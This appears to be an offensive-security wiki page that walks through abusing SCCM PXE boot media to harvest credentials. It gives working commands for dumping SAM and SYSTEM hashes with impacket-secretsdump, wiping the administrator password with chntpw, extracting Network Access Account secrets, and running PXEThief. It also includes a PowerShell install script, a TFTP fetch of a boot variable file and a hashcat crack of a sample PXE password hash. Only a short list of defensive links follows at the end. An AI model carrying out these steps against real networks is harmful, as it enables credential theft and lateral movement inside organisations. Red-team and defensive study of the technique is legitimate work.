






# CRED-1 - PXE Abuse

### Document Reference

* [CRED-1](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-1/cred-1\_description.md)

## Unencrypted Boot Mediums

PXE Boot mediums may be deployed to endpoints wherein the PXE boot image is not encrypted. When this is the case it is trivial to initiate the PXE installation sequence and pillage credentials on the resulting image when installation is complete.&#x20;

Broadly, this means it is trivial to obtain local SAM hashes and SCCM secrets from the installed image.

### **Requirements**

* Unauthenticated network access
* Line of sight to DHCP server (optional, but helps)
* Line of sight to PXE-enabled distribution point

### **Manual** &#x20;

This process can be performed manually by using virtualisation on the attack system (Virtualbox, Vmware etc..). Configuring a VM to network boot&#x20;

<figure><figcaption></figcaption></figure>

Once the initial PXE image is loaded, if the image is not password protected then we can simply proceed without requiring password input.

<figure><figcaption></figcaption></figure>

Proceed until an option for continuing with limited setup appears, then continue with the limited setup process.

<figure><figcaption></figcaption></figure>

When the system is finalised the logon screen for the administrator account will be presented. Gracefully shutdown the VM through the power options menu.&#x20;


Ensure the VM is gracefully shutdown through the windows power options. If the VM is terminated in an ungraceful state you will not have write access to reset the administrator password through a live boot medium.


Boot a live distro such as Kali Linux over the top of the newly created VM. Browse to the mounted Windows disk `/Windows/Windows/System32/Config` where the SAM and SYSTEM hive files reside.&#x20;

Then use `impacket-secretsdump` to obtain the SAM hashes from the system.

```
impacket-seretsdump -system SYSTEM -sam SAM LOCAL
```

<figure><figcaption></figcaption></figure>

After this, ideally we will access the VM as the administrative account to identify further credentials. `chntpw` can be used to wipe any local account credentials within the SAM database, we will wipe the local administrator account credentials, save changes and reboot into the installed Windows VM.

```bash
# List details about specific accounts
chntpw -u <user> SAM

# Interactive mode
chntpw -i SAM

# User edit mode and clear passwordb
Option 1
Enter user RID
Option 1 <-- Clear Password

# Save changes and exit
Enter
q
Enter
y
```

<figure><figcaption></figcaption></figure>

After saving changes and rebooting the Windows VM. It should auto login as the native administrator account as there is now no password in place.


Sometimes this process seems to fail. If so try again and ensure the account is unlocked then blank the password again. Save the hive and perform a graceful shutdown in Kali.


Once logged in as an administrative user, it is advised to use SharpSCCM to identify any local secrets for the NAA account. There is potential for the NAA account to be over-privileged in domain or for its password to be reused within the environment.

<figure><figcaption></figcaption></figure>


Credential Material obtained for lateral movement

* SAM hashes
* SCCM NAA account credentials



### PXETHIEF

PXETHIEF is best utilised from a Windows based system so it can decrypt password values. PXETHIEF helps automate the process of collecting ConfigMgr Collection Variables, Task Sequence variables and NAA account credentials from PXE images.

**Requirements**

* Install npcap: [https://npcap.com/#download](https://npcap.com/#download)
* Install Python3: [https://www.python.org/downloads/windows/](https://www.python.org/downloads/windows/)
* Install TFTP Client (Windows Feature)
* Clone PXEThief repository: [https://github.com/MWR-CyberSec/PXEThief](https://github.com/MWR-CyberSec/PXEThief)

The PowerShell script below will attempt to download and install the above requirements. `npcap` is not able to be installed silently and will require manual intervention to finalise.

```powershell
if (-not ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)) {
    Write-Warning "Not running as administrator. Please run this script as an administrator." ; break
}

$urls = @{
    Npcap = "https://nmap.org/npcap/dist/npcap-1.79.exe";
    Python = "https://www.python.org/ftp/python/3.12.3/python-3.12.3-amd64.exe";
    PXEThief = "https://codeload.github.com/MWR-CyberSec/PXEThief/zip/refs/heads/main"
}

$installers = @{
    Npcap = "npcap-installer.exe";
    Python = "python-installer.exe";
    PXEThief = "PXEThief-main.zip"
}

$urls.GetEnumerator() | % {IWR -Uri $_.Value -OutFile $installers[$_.Key] -Verbose}
Expand-Archive -Path $installers["PXEThief"] -DestinationPath "." -Force
try {Enable-WindowsOptionalFeature -Online -FeatureName "TFTP-Client" -NoRestart} 
catch {Install-WindowsFeature -Name "TFTP-Client"}

Start-Process -FilePath $installers["Python"] -ArgumentList "/quiet InstallAllUsers=1 PrependPath=1" -Wait -NoNewWindow
Write-Host "Please manually install Npcap using the installer provided if required." -ForegroundColor Yellow
Start-Process -FilePath $installers["Npcap"] -Wait -NoNewWindow
Start-Sleep -Seconds "20"
Set-Location -Path "PXEThief-main"
Start-Process -FilePath "cmd.exe" -ArgumentList '/c py.exe -m pip install -r requirements.txt' -Wait -NoNewWindow
switch ((Read-Host "Create Firewall Exception for Outbound TFTP? y/n").ToLower()) {
    'y' { try {New-NetFirewallRule -DisplayName "Allow Outbound TFTP" -Direction Outbound -Protocol UDP -LocalPort 69 -Action Allow} catch {Write-Host "Failure Creating Firewall Rule" -ForegroundColor "Red"} }
    'n' { continue }
    default { Write-Host "Invalid input, moving on..." -ForegroundColor "Yellow" }
}
Write-Host "Script execution completed. Check the current directory for downloaded files and installation status." -ForegroundColor Green
```

**Execute**

```python
# Directly target MECM Server
py.exe pxethief.py 2 <MECM Server IP>

# Broadcast 
py.exe pxethief.py 1
```

<figure><figcaption></figcaption></figure>

## Encrypted Boot Mediums

SCCM can be configured to set passwords on PXE. When this is the case, a valid password needs to be provided before the boot media is accessible. PXETHIEF can be used to obtain the hashed password value, if the password is weak, we can crack it and proceed with the same steps in the above sections of this document to perform credential extraction.

Download the boot var with TFTP


```python
tftp -i 192.168.60.11 GET "\SMSTemp\2024.04.13.14.11.18.0001.{51724F94-5668-41AD-A8B1-703658B6906C}.boot.var" "2024.04.13.14.11.18.0001.{51724F94-5668-41AD-A8B1-703658B6906C}.boot.var"
```


Use with option 5 in PXETHIEF to receive the PXE password hash


```python
py.exe .\pxethief.py 5 '.\2024.04.13.14.11.18.0001.{51724F94-5668-41AD-A8B1-703658B6906C}.boot.var'
```


<figure><figcaption></figcaption></figure>

To crack the hash in hashcat, we need to use Christopher Panayi’s hashcat module, which needs to be compiled into a hashcat build to support SCCM hashes.

hashcat module: [https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module](https://github.com/MWR-CyberSec/configmgr-cryptderivekey-hashcat-module)

Otherwise, I have created a fork of hashcat, with this module for hashcat 6.2.6 with precompiled Linux and Windows binaries here: [https://github.com/The-Viper-One/hashcat-6.2.6-SCCM](https://github.com/The-Viper-One/hashcat-6.2.6-SCCM)


```
hashcat-2.6.2-SCCM.exe -m 19850 -a 0 $sccm$aes128$0000edec1400000010330000203300000e6600000000000008b5ea1dab29bdd0de62e6506b108b5c <password-file.txt> <rules>
```


<figure><figcaption></figcaption></figure>

Now that the PXE password has been obtained, the same steps in **Unencrypted Boot Medium section** can be followed for credential extraction.

## Defence

* [PREVENT-3: Harden or disable network access accounts](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-3/prevent-3\_description.md)
* [PREVENT-6: Configure a strong PXE boot password](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-6/prevent-6\_description.md)
* [PREVENT-7: Disable command support in PXE boot configuration](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-7/prevent-7\_description.md)
* [PREVENT-21: Restrict PXE boot to authorized VLANs](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/defense-techniques/PREVENT/PREVENT-21/prevent-21\_description.md)
